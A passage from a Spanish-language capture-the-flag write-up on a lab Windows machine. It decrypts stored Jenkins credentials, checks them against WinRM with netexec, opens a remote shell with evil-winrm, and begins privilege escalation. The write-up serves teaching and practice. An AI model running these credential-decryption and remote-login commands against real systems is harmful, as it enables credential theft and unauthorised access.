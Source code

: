 ```bash
./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml
```

<figure><img src="../../../.gitbook/assets/3131_vmware_5xFMg3jHi9.png" alt="" width="515"><figcaption></figcaption></figure>

Intentaremos verificar con _**netexec**_ si este usuario es válido para acceder al WinRM con las credenciales encontradas y verificamos que si.

```bash
netexec winrm 10.10.11.132 -u 'oliver' -p 'c1cdfun_d2434'
```

<figure><img src="../../../.gitbook/assets/3132_vmware_O8MRaFPXPG.png" alt=""><figcaption></figcaption></figure>

Accederemos al WinRM a través de _**evil-winrm**_ y verificaremos que obtenemos la flag del **user.txt.**

```bash
evil-winrm -i 10.10.11.132 -u 'oliver' -p 'c1cdfun_d2434'
```

<figure><img src="../../../.gitbook/assets/3133_vmware_7esOIpWXBJ.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Una vez ganado acceso al equipo, deberemos de buscar maneras para elevar nuestros privilegios y convertirnos finalmente en Domain Admins.

Verificaremos los permisos que disponemos y a qué grupos forma parte el usuario (oliver@object.local), no vemos ningún permiso ni grupo que podamos realizar un PrivEsc.
